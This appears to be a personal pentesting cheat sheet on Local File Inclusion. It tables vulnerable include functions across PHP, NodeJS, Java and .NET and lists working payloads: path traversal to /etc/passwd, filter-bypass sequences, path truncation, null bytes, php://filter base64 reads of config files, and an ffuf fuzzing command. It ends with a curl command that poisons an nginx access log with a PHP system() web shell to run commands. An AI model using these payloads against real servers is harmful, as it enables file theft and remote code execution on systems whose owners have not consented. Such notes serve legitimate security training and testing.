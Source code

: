 Vulnerable Functions

|Function|Read Content|Execute|Remote URL|
|-|-|-|-|
|PHP||
|include()/include_once()|✅|✅|✅
|require()/require_once()|✅|✅|❌
|fopen()/file()|✅|❌|❌
|NodeJS||
|fs.readFile()|✅|❌|❌
|fs.sendFile()|✅|❌|❌
|res.render()|✅|✅|❌
|Java||
|include|✅|❌|❌
|import|✅|✅|✅
|.NET||
|@Html.Partial()|✅|❌|❌
|@Html.RemotePartial()|✅|❌|✅
|Response.WriteFile()|✅|❌|❌
|include|✅|✅|✅

use [Command Injection](Command%20Injection.md) to bypass blacklisted charaters

# Basic
```
http://<SERVER_IP>:<PORT>/index.php?language=es.php
```

# Path Traversal
```
include("./languages/" . $_GET['language']);

http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```
## Filename Prefix
Add / to terminate prefix. 

```
include("lang_" . $_GET['language']);



http://<SERVER_IP>:<PORT>/index.php?language=../../../etc/passwd
```

## Appended Extensions
Search for file with that specific extensions. 

```
include($_GET['language'] . ".php");

The application could search for application with extension. 

```

# Basic Bypass

## Non-Recursive Path Traversal Filters
Deleting ../
```php
$language = str_replace('../', '', $_GET['language']);

```
Try
```
....//
..././ 
....\/ 
....////
 
```

## Encoding
DO URL encode

## Approved Paths

Only allow specific path (e.g. ./language)
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}

```

Incorporate the approved path
```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

## Appended Extension
obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4.
### Path Truncation
In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be truncated, and any characters after the maximum length will be ignored.
```bash
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]


echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././

```

### Null Bytes
PHP versions before 5.5 were vulnerable to null byte injection, which means that adding a null byte (%00) at the end of the string would terminate the string and not consider anything after it.
```
 /etc/passwd%00)
```

# PHP Filters

PHP Wrappers
https://www.php.net/manual/en/wrappers.php.php

4 Filters
String
https://www.php.net/manual/en/filters.string.php
Conversion
https://www.php.net/manual/en/filters.convert.php
Compression
https://www.php.net/manual/en/filters.compression.php
Encryption
https://www.php.net/manual/en/filters.encryption.php

Step 1. 
Fuzz for different php pages. 
```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

```

Step 2
```
php://filter/read=convert.base64-encode/resource=config

http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

contact
error
about
index
main
industries
ilf_admin/index.php


```
curl 'http://test:36381/ilf_admin/index.php?log==../../../../../../../var/log/nginx/access.log&cmd=id' -H 'User-Agent: <?php system($_GET[\"cmd\"]); ?>'
```